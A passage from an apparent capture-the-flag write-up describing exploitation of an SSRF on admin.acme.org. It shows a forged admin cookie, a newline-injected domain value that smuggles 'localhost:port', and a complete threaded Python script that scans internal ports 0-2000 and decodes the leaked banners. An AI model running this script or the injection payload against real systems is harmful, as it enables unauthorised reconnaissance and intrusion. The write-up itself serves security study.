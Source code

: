 And then do the GET with the given ID:  
>GET /read.php?id=2 HTTP/1.1
Host: admin.acme.org
Cookie: admin=yes

Which gives us:  
>{"data":"U1NILTIuMC1PcGVuU1NIXzcuMnAyIFVidW50dS00dWJ1bnR1Mi4yDQpQcm90b2NvbCBtaXNftYXRjaC4K"}  

Which could be [```base64```](https://en.wikipedia.org/wiki/Base64) decoded to ```SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2 Protocol mismatch.```  
Oke, awesome. It is indeed a [SSRF](https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/). Now let's try to exploit it.
#  
I created a small python script that automates the process of looping through ports by sending the [```POST```](https://en.wikipedia.org/wikAi/POST_(HTTP)) request with ```localhost:port```, and then use the id in the response to make a [```GET```](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) request to fetch the data, which will then be displayed [```base64```](https://en.wikipedia.org/wiki/Base64) decoded.  

Script:  
```python
import requests, base64, threading, time

port = 0


def scan(port):
	try:
		headers= {"Content-Type":"application/json", "Cookie":"admin=yes", "Host":"admin.acme.org"}
		try:
			p = requests.post("http://104.236.20.43/", json={"domain": "212.\nlocalhost:"+str(port)+"\n.com"}, headers=headers)
			p_json = p.json()
			next = p_json["next"]
		except:
			print "-error on port "+str(port)
	
		next_id = next.split("=")[1]
		g = requests.get("http://104.236.20.43/read.php?id="+str(int(next_id) - 1), headers=headers)
		g_json = g.json()
		try:
			data = g_json["data"]
		except:
			print "-error on port "+str(port)
			data = ""
		if data:
			print str(port) + " - " + base64.b64decode(data)
	except:
		print "-error on port "+str(port)


while port < 2000:
	try:
		thr = threading.Thread(target=scan, args=(port,))
		thr.start()
	except:
		print "-error on port "+str(port)
	time.sleep(0.1)
	port = port + 1
```  
So when we run this script, it checks the ports in the given range. In the scenario above, the range is set to 0-2000.  
Running the script gives us the following result:  
![](http://poc-server.com/write-ups/h1/Port_Scan.gif)  